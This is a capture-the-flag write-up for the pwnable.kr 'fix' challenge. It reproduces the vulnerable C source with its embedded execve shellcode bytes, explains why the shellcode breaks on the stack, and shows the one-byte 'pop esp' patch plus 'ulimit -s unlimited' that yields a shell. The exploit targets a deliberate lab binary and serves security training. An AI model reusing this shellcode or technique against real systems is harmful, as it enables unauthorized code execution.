

# pwnable.kr -- Rookiss -- fix

## 1. Challenge

> Why bother to make your own shellcode?  
> I can simply copy&paste from shell-storm.org  
> so I just copied it from shell-storm then used it for my buffer overflow exercise  
> but it doesn't work :(  
> can you please help me to fix this??  
>   
> ssh fix@pwnable.kr -p2222 (pw:guest)  

## 2. Solution

Log in via SSH and download the binary file `fix` and the corresponding source code `fix.c`.

fix.c:
```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}
```

It seems we could only change one byte inside `shellcode`.

I tried to run `fix` but it crashed. So I use `gdb` to find out what happened.

The following is the context when shellcode began to run.



The shellcode has 5 `push`es so that `esp` would reach `0xffffcf00 - 0x4 * 5 = 0xFFFFCEEC`. But some of the shellcode is located after `0xFFFFCEEC`. As a result, the shellcode is broken. 

So it seems we are allowed to have 3 `push`es at most. As we could only modify one byte, I modify `push eax`(on the 6th line) to `pop esp`. After that, `esp` should be `0x6e69622f`. 

However, how could we make such address valid? Well, use 

```
ulimit -s unlimited
```

It could make the program have unlimited stack size. So that set `esp` to `0x6e69622f` would not cause access violation.

```
fix@ubuntu:~$ ls
fix  fix.c  flag  intended_solution.txt
fix@ubuntu:~$ ulimit -s unlimited
fix@ubuntu:~$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 92
get shell
$ ls
fix  fix.c  flag  intended_solution.txt
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
$ exit
fix@ubuntu:~$
```

